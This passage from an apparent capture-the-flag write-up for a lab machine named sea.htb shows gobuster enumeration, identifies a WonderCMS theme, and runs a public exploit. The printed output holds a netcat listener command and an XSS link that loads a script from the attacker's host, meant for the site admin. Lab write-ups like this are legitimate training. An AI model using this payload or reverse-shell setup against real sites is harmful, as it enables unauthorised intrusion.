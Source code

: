 When searching for subdirectories of the subdirectories, bike is particularly interesting.
```shell-session
# gobuster dir -u http://sea.htb/themes/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x .php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sea.htb/themes/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 199]
/home                 (Status: 200) [Size: 3650]
/404                  (Status: 200) [Size: 3341]
/372.php              (Status: 500) [Size: 0]
/%20.php              (Status: 403) [Size: 199]
/%20                  (Status: 403) [Size: 199]
/bike                 (Status: 301) [Size: 235] [--> http://sea.htb/themes/bike/]
```

Visiting README.md downloads for us an interesting file.
```shell-session
# cat README.md            
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview
![Theme preview](/preview.jpg)

## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find theme in the list and click "install".
4. In the "General" tab, select theme to activate it.
```

The site is seems to be WonderCMS website, a public exploit can be found [here](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413).

Executing the exploit it starts a python server.
```shell-session
# python3 WonderCMS_exploit.py http://sea.htb 10.10.14.59 6666
[+] xss.js is created
[+] execute the below command in another terminal

----------------------------
nc -lvp 6666
----------------------------

send the below link to admin:

----------------------------
http://sea.htb"></form><script+src="http://10.10.14.59:8000/xss.js"></script><form+action="
----------------------------
```
